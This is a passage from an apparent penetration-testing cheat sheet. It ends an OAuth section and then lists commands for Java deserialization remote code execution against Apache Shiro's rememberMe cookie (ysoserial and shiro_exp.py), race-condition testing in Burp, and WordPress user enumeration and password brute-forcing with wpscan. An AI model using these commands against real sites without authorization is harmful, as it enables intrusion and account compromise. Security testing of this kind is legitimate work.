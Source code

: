 ```  
```

5-
```  
GET /userinfo HTTP/1.1  
Host: oauth.server.com  
Authorization: Bearer <token>
```

6- 
```
{
    "username":"user",
    "email":"user@ok.com"
}
```

## Padding Oracle Attack
e.g.  
-> rememberMe: (Cookie)  
-> Exploiting  
```
java -jar ysoserial.jar CommonsBeanutils1 "touch /tmp/success" > payload.class
```  
https://github.com/frohoff/ysoserial  
```
python shiro_exp.py site.com/home.jsp cookie payload.class
```  
https://github.com/wuppp/shiro_rce_exp/blob/master/shiro_exp.py  

## Race Condition
-> Burp Suite - race condition test using Send group in parallel  
https://portswigger.net/burp/documentation/desktop/tools/repeater/send-group

-> Burp Suite - Extensions -> Turbo Intruder-> Send to Turbo Intruder -> select examples/race-single-packer-attack.py  
https://portswigger.net/web-security/race-conditions

## Content Management System (CMS)
### Wordpress
-> wpscan enumeration
```
wpscan --url http://site.com/wordpress --api-token <your_token> --enumerate u,vp --plugins-detection aggressive
wpscan --url http://site.com/wordpress --api-token <your_token> --enumerate u,ap
```
-> wpscan brute force 
```
wpscan --url http://site.com/ --passwords wordlist.txt
```
https://wpscan.com/wordpress-security-scanner
